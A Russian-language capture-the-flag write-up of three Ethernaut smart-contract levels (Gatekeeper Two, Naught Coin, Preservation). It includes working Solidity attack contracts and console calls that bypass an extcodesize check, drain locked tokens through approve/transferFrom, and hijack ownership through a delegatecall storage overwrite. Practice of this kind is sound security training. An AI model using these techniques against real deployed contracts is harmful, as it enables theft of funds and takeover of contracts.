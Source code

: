 

### 14. Gatekeeper Two (***)
Итак, расследование:
msg.sender != tx.origin -> опять вызывать из контракта
x := extcodesize(caller()) == 0 -> причем атакующая функция в конструкторе
gateThree снова битиками вертеть. Ну, ок, поехали!
Даже думать не пришлось))) 
``` // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Gatekeeper2Enter {
    event Response(bool success, bytes data, uint256 gas);

    constructor(address gatekeeper) {
        uint64 key = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max;
        (bool success, bytes memory data) = gatekeeper.call(
            abi.encodeWithSignature("enter(bytes8)", bytes8(key))
        );
    }
}
```
Awesome work! You’re halfway through Ethernaut and getting pretty good at breaking things. Working as a Blockchain Security Researcher at OpenZeppelin could be fun... https://grnh.se/fdbf1c043us

https://www.openzeppelin.com/jobs/opening?gh_jid=4254142003&gh_src=fdbf1c043us


### 15. Naught Coin (***)
Первые три минуты кажется, что к контракту не придраться. А потом - Эврика! - approve )))
>contract.approve("0x8f8DCA09a9569698bd9d318E597bf33BA1028aA6", "1000000000000000000000000")
А потом в Remix перевести на свой другой счет все монеты - минутное дело!
transferFrom(player, "0x8f8DCA09a9569698bd9d318E597bf33BA1028aA6", "1000000000000000000000000")
https://sepolia.etherscan.io/tx/0x01389af94bee37022fbd2b37fbd59ca53976b727f2a5b24d4a8e7a6e8cb553ea


### 16. Preservation (****)
Я бы не дал этой задаче 4 звезды.
Кто-то решил вызывать библиотеки через delegatecall и таким образом переписывает локальный 0 слот.
Значит мне нужно в него отправить адрес моего контракта где setTime(uint256 addr) будет переписывать 2й слот - адрес владельца
```
contract Timekeeper {
  address public a;
  address public b;
  address public owner; 


  function setTime(uint256 addr) public {
    owner = address(uint160(addr));
  }  
}
```
>Preservation.setSecondTime(address(Timekeeper));
>Preservation.setFirstTime(player);
